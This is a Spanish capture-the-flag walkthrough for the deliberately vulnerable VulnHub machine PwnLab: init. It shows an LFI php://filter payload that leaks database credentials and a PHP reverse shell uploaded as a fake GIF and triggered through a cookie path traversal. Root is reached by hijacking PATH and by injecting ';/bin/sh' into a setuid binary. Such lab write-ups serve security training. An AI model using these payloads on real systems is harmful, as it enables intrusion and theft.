

<p align="center">
  
</p>

# Introducción

Esta máquina puede parecer para principiantes, ¡pero puedo asegurarles que esta los pondrá a prueba!. El propósito de este CTF es obtener root y leer la bandera. La maquina está disponible en: [https://www.vulnhub.com/entry/pwnlab-init,158/](https://www.vulnhub.com/entry/pwnlab-init,158/)

# CWE

- CWE-98: Improper Control of Filename for Include/Require Statement in PHP
- CWE-434: Unrestricted Upload of File with Dangerous Type
- CWE-73: External Control of File Name or Path

# Fase de reconocimiento

Aquí hacemos uso de Nmap como anteriormente lo hemos hecho en la fase de reconocimiento. 

<p align="center">
  
</p>

Como la máquina PwnLab: init se encuentra corriendo en VirtualBox en modo de red "sólo anfitrión" y no sé su dirección IP, ejecuto este comando para buscarla:

```bash
nmap -sP 192.168.56.1/24
```
Una vez obtenemos su dirección IP (en mi caso es 192.168.56.6), procedemos a ver que puertos tiene abiertos:

```bash
nmap -p- -open -T5 -vvvv -n -oN puertosAbiertos 192.168.56.6
```

Obtenemos:

<p align="center">
  
</p>

Tenemos 4 puertos abiertos. Cuando hacemos un escaneo más profundo de estos puestos obtenemos:

```bash
nmap -sCV -p80,111,3306,58573 192.168.56.6 -oN masInfo
```

Al ingresar a la página web que está corriendo esta máquina por el puerto 80 tenemos:

<p align="center">
  
</p>

Hay 3 secciones en esta página, y nos damos cuenta rápidamente que hay una sección para iniciar sesión y para cargar archivos, pero para cargar estos es necesario iniciar sesión primero con alguno de los usuarios registrados.

<p align="center">
  
</p>

Además, la página usa MySQL, PHP, apache y Linux (LAMP Stack):

<p align="center">
  
</p>

Por la forma como está estructurada la URL:

```bash
http://192.168.56.6/?page=login
```
… puede ser vulnerable a [LFI (Local File Inclusion)](https://spanning.com/blog/file-inclusion-vulnerabilities-lfi-rfi-web-based-application-security-part-9/#:~:text=an%20external%20source.-,Local%20File%20Inclusion%20(LFI),vulnerable%20website%20or%20web%20application.) usando [wrappers de PHP](https://infinitelogins.com/2020/04/25/lfi-php-wrappers-to-obtain-source-code/
):

<p align="center">
  
</p>

Ahora usamos la herramienta *Gobuster* para hacer búsqueda con diccionario de otras posibles rutas dentro del aplicativo web:

```bash
gobuster dir -x php,txt,js,html -u http://192.168.56.5/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<p align="center">
  
</p>

Y encontramos una ruta nueva “config.php”. Al acceder a ello no encontramos nada de información:

<p align="center">
  
</p>

Además, al analizar con otra herramienta llamada ***nikto*** también nos arroja que la ruta “config.php” puede contener usuarios y contraseñas de la base de datos (asimismo, este archivo puede contener usuarios que están permitidos y no permitidos en la aplicación, extensiones y módulos).
<br>
Al buscar un listado de comandos de ataque LFI en esta pagina: [https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion) encontramos uno que nos puede ayudar a recuperar el código backend en base64 que corre la ruta config.php:

```bash
http://192.168.56.6/?page=php://filter/convert.base64-encode/resource=config
```

Y nos retorna:

```
PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRSl9IOTkiOw0KJGRhdGFiYXNlID0gIlVzZXJzIjsNCj8+
```

<p align="center">
  
</p>

Al convertir este base64 a texto en esta página [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/) encontramos algunas credenciales aparentemente de base de datos:

<p align="center">
  
</p>

```
<?php
$server       = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>
```

Al intentar acceder a la base de datos MySQL remotamente con esas credenciales:

```
mysql -u root -h 192.168.56.6 -ppH4u%QJ_H99
```

<p align="center">
  
</p>

Efectivamente logramos acceder a la base de datos y encontramos una base de datos Users, con una tabla que contiene algunos usuarios y contraseña, las cuales parecen estar cifradas en base64:

<p align="center">
  
</p>

```
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+
```

Las convertirnos de base64 a texto, y nos damos cuenta que nos podemos loguear con cualquiera de ellas:

<p align="center">
  
</p>

Ya logueados podemos subir archivos:

<p align="center">
  
</p>

Nuevamente vamos a traer el código backend que corre esta ruta con la URL:

```
http://192.168.56.6/?page=php://filter/convert.base64-encode/resource=upload
```

<p align="center">
  
</p>

Y nos retorna:
```
PD9waHANCnNlc3Npb25fc3RhcnQoKTsNCmlmICghaXNzZXQoJF9TRVNTSU9OWyd1c2VyJ10pKSB7IGRpZSgnWW91IG11c3QgYmUgbG9nIGluLicpOyB9DQo/Pg0KPGh0bWw+DQoJPGJvZHk+DQoJCTxmb3JtIGFjdGlvbj0nJyBtZXRob2Q9J3Bvc3QnIGVuY3R5cGU9J211bHRpcGFydC9mb3JtLWRhdGEnPg0KCQkJPGlucHV0IHR5cGU9J2ZpbGUnIG5hbWU9J2ZpbGUnIGlkPSdmaWxlJyAvPg0KCQkJPGlucHV0IHR5cGU9J3N1Ym1pdCcgbmFtZT0nc3VibWl0JyB2YWx1ZT0nVXBsb2FkJy8+DQoJCTwvZm9ybT4NCgk8L2JvZHk+DQo8L2h0bWw+DQo8P3BocCANCmlmKGlzc2V0KCRfUE9TVFsnc3VibWl0J10pKSB7DQoJaWYgKCRfRklMRVNbJ2ZpbGUnXVsnZXJyb3InXSA8PSAwKSB7DQoJCSRmaWxlbmFtZSAgPSAkX0ZJTEVTWydmaWxlJ11bJ25hbWUnXTsNCgkJJGZpbGV0eXBlICA9ICRfRklMRVNbJ2ZpbGUnXVsndHlwZSddOw0KCQkkdXBsb2FkZGlyID0gJ3VwbG9hZC8nOw0KCQkkZmlsZV9leHQgID0gc3RycmNocigkZmlsZW5hbWUsICcuJyk7DQoJCSRpbWFnZWluZm8gPSBnZXRpbWFnZXNpemUoJF9GSUxFU1snZmlsZSddWyd0bXBfbmFtZSddKTsNCgkJJHdoaXRlbGlzdCA9IGFycmF5KCIuanBnIiwiLmpwZWciLCIuZ2lmIiwiLnBuZyIpOyANCg0KCQlpZiAoIShpbl9hcnJheSgkZmlsZV9leHQsICR3aGl0ZWxpc3QpKSkgew0KCQkJZGllKCdOb3QgYWxsb3dlZCBleHRlbnNpb24sIHBsZWFzZSB1cGxvYWQgaW1hZ2VzIG9ubHkuJyk7DQoJCX0NCg0KCQlpZihzdHJwb3MoJGZpbGV0eXBlLCdpbWFnZScpID09PSBmYWxzZSkgew0KCQkJZGllKCdFcnJvciAwMDEnKTsNCgkJfQ0KDQoJCWlmKCRpbWFnZWluZm9bJ21pbWUnXSAhPSAnaW1hZ2UvZ2lmJyAmJiAkaW1hZ2VpbmZvWydtaW1lJ10gIT0gJ2ltYWdlL2pwZWcnICYmICRpbWFnZWluZm9bJ21pbWUnXSAhPSAnaW1hZ2UvanBnJyYmICRpbWFnZWluZm9bJ21pbWUnXSAhPSAnaW1hZ2UvcG5nJykgew0KCQkJZGllKCdFcnJvciAwMDInKTsNCgkJfQ0KDQoJCWlmKHN1YnN0cl9jb3VudCgkZmlsZXR5cGUsICcvJyk+MSl7DQoJCQlkaWUoJ0Vycm9yIDAwMycpOw0KCQl9DQoNCgkJJHVwbG9hZGZpbGUgPSAkdXBsb2FkZGlyIC4gbWQ1KGJhc2VuYW1lKCRfRklMRVNbJ2ZpbGUnXVsnbmFtZSddKSkuJGZpbGVfZXh0Ow0KDQoJCWlmIChtb3ZlX3VwbG9hZGVkX2ZpbGUoJF9GSUxFU1snZmlsZSddWyd0bXBfbmFtZSddLCAkdXBsb2FkZmlsZSkpIHsNCgkJCWVjaG8gIjxpbWcgc3JjPVwiIi4kdXBsb2FkZmlsZS4iXCI+PGJyIC8+IjsNCgkJfSBlbHNlIHsNCgkJCWRpZSgnRXJyb3IgNCcpOw0KCQl9DQoJfQ0KfQ0KDQo/Pg==
```

Al convertirla en la [página anterior](https://gchq.github.io/CyberChef/):

```php
<?php
session_start();
if (!isset($_SESSION['user'])) { die('You must be log in.'); }
?>
<html>
	<body>
		<form action='' method='post' enctype='multipart/form-data'>
			<input type='file' name='file' id='file' />
			<input type='submit' name='submit' value='Upload'/>
		</form>
	</body>
</html>
<?php 
if(isset($_POST['submit'])) {
	if ($_FILES['file']['error'] <= 0) {
		$filename  = $_FILES['file']['name'];
		$filetype  = $_FILES['file']['type'];
		$uploaddir = 'upload/';
		$file_ext  = strrchr($filename, '.');
		$imageinfo = getimagesize($_FILES['file']['tmp_name']);
		$whitelist = array(".jpg",".jpeg",".gif",".png"); 

		if (!(in_array($file_ext, $whitelist))) {
			die('Not allowed extension, please upload images only.');
		}

		if(strpos($filetype,'image') === false) {
			die('Error 001');
		}

		if($imageinfo['mime'] != 'image/gif' && 
		  $imageinfo['mime'] != 'image/jpeg' &&
		  $imageinfo['mime'] != 'image/jpg'&&
		  $imageinfo['mime'] != 'image/png') {
			die('Error 002');
		}

		if(substr_count($filetype, '/')>1){
			die('Error 003');
		}

		$uploadfile=$uploaddir.md5(basename($_FILES['file']['name']
		  )).$file_ext;

		if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)) {
			echo "<br />";
		} else {
			die('Error 4');
		}
	}
}

?>
```

Vemos que la página verifica que el archivo subido sea de los siguientes tipos jpg, jpeg, gif o png. Al hacer lo mismo con la ruta home, encontramos una parte donde se declara el lenguaje que contendrá la cookie, y curiosamente el lenguaje que contiene la cookie es declarado en un archivo (podremos ejecutar archivos con esta vulnerabilidad):

<p align="center">
  
</p>

# Ganar acceso / explotación

Vamos a subir un archivo con una reverse shell a la aplicación web. Para ello podemos descargar el archivo con el exploit aqui: [https://pentestmonkey.net/tools/web-shells/php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). Lo descomprimimos:

<p align="center">
  
</p>

Debemos acceder al exploit y cambiar la dirección IP de la máquina atacante y el puerto por el que estaremos escuchando:

<p align="center">
  
</p>
	
…también, como el archivo a subir debe ser de tipo imagen, debemos cambiar la extensión del archivo a *.gif*, y dentro del archivo agregar justo al inicio del archivo “GIF8” (magic number de un archivo tipo gif):

<p align="center">
  
</p>

<p align="center">
  
</p>

Procedemos a subirlo al aplicativo:

<p align="center">
  
</p>

Y parece que ya lo hemos subido:

<p align="center">
  
</p>

Lo comprobamos en la ruta ***http://192.168.56.6/upload/***, donde podemos encontrar el archivo que acabamos de subir y ha sido renombrado con su md5:

<p align="center">
  
</p>

Ahora usamos Burpsuite para modificar el parámetro de la cookie y poder ejecutar la reverse shell:

```
…
Cookie: lang=../upload/3208fd203ca8fdfa13bc98a4832c1396.gif
…
```

<p align="center">
  
</p>

Nos ponemos en escucha por el puerto especificado en el exploit (en mi caso el puerto 1234):

```bash
nc -nvlp 1234
```

Y al enviar esta petición al aplicativo logramos entablar una reverse shell:

<p align="center">
  
</p>

Para obtener una shell con bash (por comodidad) ejecutamos:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
<p align="center">
  
</p>

Cuando ejecutamos el comando ***uname -a*** para obtener un poco de información sobre el kernel vemos:

<p align="center">
  
</p>

Al enumerar los usuarios del sistema encontramos 4 usuario:

```bash
cat /etc/passwd
```

<p align="center">
  
</p>

Cuando nos logueamos con el usuario kane (las credenciales anteriores) encontramos un archivo binario llamado *msgmike*:

<p align="center">
  
</p>

Al ejecutarlo parece que ejecuta el comando *cat* de un archivo en el directorio de mike que no existe:

<p align="center">
  
</p>

Usaremos el comando *strings* para imprimir los caracteres imprimibles de este archivo binario:

<p align="center">
  
</p>

Y efectivamente ejecuta el comando *cat*.

```bash
strings msgmike
```
Aprovecharemos que ejecuta el comando cat de forma relativa. Crearemos un archivo llamado *cat*, con el contenido “/bin/sh” (con el fin de obtener una shell del usuario mike), le damos permisos de ejecución y agregaremos el directorio /home/kane (directorio actual) al PATH:

<p align="center">
  
</p>

Y … obtenemos una shell pero parece que la mayoría de comandos no funcionan. Cuando exportamos el PATH por defecto en esta nueva shell parece que se arregla este problema:

```bash
export PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

<p align="center">
  
</p>

Cuando buscamos que archivos tiene el usuario mike, tenemos otro binario que imprime el comando en un archivo que pertenece a root:

```bash
strings msg2root
```

<p align="center">
  
</p>

Al ejecutar el archivo y escribir *sometext;/bin/sh* logramos una shell del usuario root y podemos leer la flag:

<p align="center">
  
</p>

*Fuente:* [https://youtu.be/Q85ku046Q_E](https://youtu.be/Q85ku046Q_E)
